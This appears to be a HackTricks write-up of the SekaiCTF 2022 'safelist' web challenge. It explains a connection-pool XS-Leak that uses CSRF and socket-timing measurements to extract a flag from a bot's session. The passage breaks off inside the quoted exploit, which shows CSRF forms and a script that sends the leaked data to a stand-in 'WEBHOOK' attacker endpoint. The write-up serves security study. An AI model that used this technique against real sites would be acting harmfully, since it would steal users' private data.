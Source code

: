 # Connection Pool Example

<details><summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

In the [**Sekaictf2022 - safelist**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/safelist/solution) challenge, [**@Strellic\_**](https://twitter.com/Strellic\_) gives an example of how to use a **variation** of the **Connection Pool** technique to perform a **XS-Leak**.

In this challenge, the goal is to exfiltrate a flag that will appear in the bots web session inside a post. These are the assets the attacker has:

* The **bot** will **visit** a **URL** given by the attacker
* The attacker can **inject HTML** in the page (but no JS, dompurify is used) abusing a **CSRF** making the **bot create a post** with that HTML.
* The attacker can abuse a CSRF to make the **bot** **delete** the **first** **post** inside the web.
* Because the **posts** are ordered **alphabetically**, when the **first post is deleted**, if the **HTML** content of the attacker is **loaded** means that it was **alphabetically before the flag**.

Therefore, to steal the flag, the solution proposed by @Strellyc\_ is to, **for each char to test** make the bot:

* Create a **new post** that **starts** with the known part of the **flag** and several **img** **loads**.
* **Delete** the **post** in position **0**.
* Block 255 sockets.
* Load the page with the posts
* Perform 5 random requests to a site (example.com in this case) and measure the time this takes.

{% hint style="warning" %}
If the **deleted** post was the **flag**, this means that all the **images** **injected** in the HTML are going to be **fighting** with the **5 random requests** for that **unblocked** socket. Which means that the time measured is going to be bigger than the other scenario.

If the **deleted** post was the **HTML**, the **5 random requests** will be **faster** because they don't need to fight for that socket with the HTML injected.
{% endhint %}

### Exploit 1

This is the exploit code, taken from [https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html](https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html):

```html
<!-- Form to inject HTML code in the bots page -->
<form method="POST" action="https://safelist.ctf.sekai.team/create" id="create" target="_blank">
    <input type="text" name="text" />
    <input type="submit" />
</form>

<!-- Form to delete the first entry -->
<form method="POST" action="https://safelist.ctf.sekai.team/remove" id="remove" target="_blank">
    <input type="text" name="index" value="0" />
    <input type="submit" />
</form>

<script>
    // Attacker listening
    const WEBHOOK = "https://WEBHOOK.com/";
    // Send data to attacker
    const log = (id, data) => {
        let payload = JSON.stringify({ known, alphabet, data });
```
